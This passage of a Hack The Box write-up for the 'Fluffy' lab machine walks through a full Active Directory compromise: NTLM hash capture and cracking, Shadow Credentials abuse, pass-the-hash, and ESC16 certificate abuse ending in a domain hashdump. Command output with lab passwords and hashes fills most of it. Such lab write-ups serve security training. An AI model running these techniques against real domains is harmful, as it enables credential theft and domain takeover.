And after a few seconds we `catched` the `hash` for `p.agila`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.27]
    Responder IPv6             [dead:beef:4::1019]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-AHE3DOAKWIM]
    Responder Domain Name      [4W27.LOCAL]
    Responder DCE-RPC Port     [45114]

[+] Listening for events...                                                                                                                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.129.61.173
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:79c0d655bdedf985:2BEEA4B18C6A74A3AB8304DD030CB4B0:0101000000000000005E64B5F1CCDB012AB41F5A26B2ADEC0000000002000800340057003200370001001E00570049004E002D00410048004500330044004F0041004B00570049004D0004003400570049004E002D00410048004500330044004F0041004B00570049004D002E0034005700320037002E004C004F00430041004C000300140034005700320037002E004C004F00430041004C000500140034005700320037002E004C004F00430041004C0007000800005E64B5F1CCDB0106000400020000000800300030000000000000000100000000200000701FF3BD2F58450C0E0CD98FC04BC85A8B14AAA223C69AE6ACBFB17A4F33EEC10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00320037000000000000000000                                                                                                                                                                                                                              
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
```

## Cracking the Hash

The next step was to `crack` the `hash` using `John the Ripper`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fluffy/files/CVE-2025-24071]
└─$ cat pagila.hash 
p.agila::FLUFFY:79c0d655bdedf985:2BEEA4B18C6A74A3AB8304DD030CB4B0:0101000000000000005E64B5F1CCDB012AB41F5A26B2ADEC0000000002000800340057003200370001001E00570049004E002D00410048004500330044004F0041004B00570049004D0004003400570049004E002D00410048004500330044004F0041004B00570049004D002E0034005700320037002E004C004F00430041004C000300140034005700320037002E004C004F00430041004C000500140034005700320037002E004C004F00430041004C0007000800005E64B5F1CCDB0106000400020000000800300030000000000000000100000000200000701FF3BD2F58450C0E0CD98FC04BC85A8B14AAA223C69AE6ACBFB17A4F33EEC10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00320037000000000000000000
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fluffy/files/CVE-2025-24071]
└─$ sudo john pagila.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)     
1g 0:00:00:02 DONE (2025-05-24 21:21) 0.4016g/s 1814Kp/s 1814Kc/s 1814KC/s proquis..programmercomputer
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

| Username | Password        |
| -------- | --------------- |
| p.agila  | prometheusx-303 |

## Active Directory Enumeration

Now with a second user in our pockets we dumped the `configuration` of the `Active Directory` using `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ netexec ldap 10.129.61.173 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --bloodhound --dns-tcp --dns-server 10.129.61.173 -c All
[*] Initializing LDAP protocol database
LDAP        10.129.61.173   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.129.61.173   389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
LDAP        10.129.61.173   389    DC01             Resolved collection methods: trusts, container, session, group, acl, rdp, localadmin, dcom, objectprops, psremote
LDAP        10.129.61.173   389    DC01             Done in 01M 08S
LDAP        10.129.61.173   389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.61.173_2025-05-24_210525_bloodhound.zip
```

## Enumeration of p.agila

First we marked `j.fleischman` and `p.agila` as `owned` and then started checking the `group memberships` of `p.agila`. The user was member of the group `SERVICE ACCOUNT MANAGERS`.



The group contained also the user `j.coffey`.



However the group also had `GenericAll` permissions set on the group `SERVICE ACCOUNTS`.



Which itself contained three users called `ldap_svc`, `ca_svc` and `winrm_svc` which were. Since we wanted access to the box we went for `winrm_svc` first.



## Foothold

## Privilege Escalation to winrm_svc

### Access Control List (ACL) GenericWrite Abuse Part 1

`BloodHound` showed us that we could abuse the `GenericWrite` permissions in order to pull off a `Shadow Credentials` attack on the three users. To do so we first added ourselves to the `SERVICE ACCOUNTS` group using `BloodyAD`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ bloodyAD --host 10.129.61.173 -d fluffy.htb -u p.agila -p prometheusx-303 add groupMember 'SERVICE ACCOUNTS' 'p.agila'
[+] p.agila added to SERVICE ACCOUNTS
```

### Shadow Credentials Attack Part 1

Then we used `Certipy` to perform the `Shadow Credentials` attack on `winrm_svc`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ certipy-ad shadow auto -username 'p.agila@fluffy.htb' -password 'prometheusx-303' -account winrm_svc               
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '06edfba9-b54b-054b-721e-2c81fc77a6ab'
[*] Adding Key Credential with device ID '06edfba9-b54b-054b-721e-2c81fc77a6ab' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '06edfba9-b54b-054b-721e-2c81fc77a6ab' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

### Pass-the-Hash (PtH)

Then we used `Pass-the-Hash (PtH)` to login to the box using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i fluffy.htb -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

## user.txt

```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
95862b4b257926d887e20d522ea0ef9a
```

## Enumeration of winrm_svc

A quick look at the `permissions` of `winrm_svc` gave us the impression that enumeration of the filesystem was eventually a dead end. And since we still had the information about the `CA` in the back of our heads, we went back to the `Shadow Credentials` attack.

```shell
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
fluffy\winrm_svc S-1-5-21-497550768-2797716248-2627064577-1603


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
FLUFFY\Service Accounts                     Group            S-1-5-21-497550768-2797716248-2627064577-1607 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to ca_svc

### Access Control List (ACL) GenericWrite Abuse Part 2

### Shadow Credentials Attack Part 2

This time we impersonated the user `ca_svc` to use the `enrollment capabilities` in order to find any vulnerabilities related to the `CA`.



Therefore we just repeated the step as before but this time changed the `-account` target to `ca_svc`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ certipy-ad shadow auto -username 'winrm_svc@fluffy.htb' -hashes 33bd09dcd697600edf6b3a7af4875767 -account ca_svc
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '1c1d6347-5286-f963-577e-909e0ea47a5b'
[*] Adding Key Credential with device ID '1c1d6347-5286-f963-577e-909e0ea47a5b' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '1c1d6347-5286-f963-577e-909e0ea47a5b' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

## Active Directory Certificate Services (AD CS)

### Searching for vulnerable Templates

We passed the `hash` of `ca_svc` to `Certipy` and searched the `CA` for vulnerabilities related to `Active Directory Certificate Services (AD CS)`. To our surprise we figured out that the `CA` itself was vulnerable to `ESC16` which describes `Security Extension Disabled on CA (Globally)`.

- [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally)

```shell
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.61.173 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

## Privilege Escalation to System

### ESC16: Scenario B: ESC16 Combined with ESC6 (CA allows SAN specification via request attributes)

We started our `Privilege Escalation` by verifying the vulnerability like described in the opening scenario.

- [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally)

```shell
┌──(kali㉿kali)-[~]
└─$ certipy-ad account -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.129.61.173' -user 'Administrator' read
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'Administrator':
    cn                                  : Administrator
    distinguishedName                   : CN=Administrator,CN=Users,DC=fluffy,DC=htb
    name                                : Administrator
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-500
    sAMAccountName                      : Administrator
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T15:59:25+00:00
    whenChanged                         : 2025-05-25T03:08:17+00:00
```

Then we proceeded with `Scenario B` which makes use of `ESC6` in order to manipulate the `User Principal Name (UPN)` of our user `ca_svc` and map it to `Administrator`. We needed to to this because `ca_svc` was the only user which could `enroll certificates`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ certipy-ad account -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.129.61.173' -upn 'Administrator' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_svc'
```

After this step we requested a `certificate` for our user like below and received the `certificate` for `Administrator` instead.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ certipy-ad req -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.129.61.173' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User' -upn 'administrator@fluffy.htb' -sid 'S-1-5-21-...-500'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 42
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Then we reverted the `UPN` in order to authenticate.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ certipy-ad account -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.129.61.173' -upn 'ca_svc' -user 'ca_svc' update                                                                  
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
```

Then we needed to `synchronize` our `time` and `date` with the `Domain Controller (DC)`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.61.173
```

Since the `certificate` had no information about the `user` and `domain` we needed to specify them in order to `authenticate` against the `Domain` and to receive the `NTLM Hash` of `Administrator`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'Administrator' -domain fluffy.htb -dc-ip '10.129.61.173'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

One more `PtH` and the box was done.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i fluffy.htb -u 'administrator' -H 8da83a3fa618b6e3a00e93f676c92a6e                                                                           
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
7c4a4821b82cefc23dc534691ccd9219
```

## Post Exploitation

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9c3442d41139f13bd02f0695d56362b9:::
ca_svc:1103:aad3b435b51404eeaad3b435b51404ee:ca0f4f9e9eb8a092addf53bb03fc98c8:::
ldap_svc:1104:aad3b435b51404eeaad3b435b51404ee:22151d74ba3de931a352cba1f9393a37:::
p.agila:1601:aad3b435b51404eeaad3b435b51404ee:a51fede5012110e9a65bd3f470513867:::
winrm_svc:1603:aad3b435b51404eeaad3b435b51404ee:33bd09dcd697600edf6b3a7af4875767:::
j.coffey:1605:aad3b435b51404eeaad3b435b51404ee:dff933046fa0943ac993d35a054235e3:::
j.fleischman:1606:aad3b435b51404eeaad3b435b51404ee:10842ead8d1d060a2de1394e4b2ea460:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7a9950c26fe9c3cbfe5b9ceaa21c9bfd:::
```
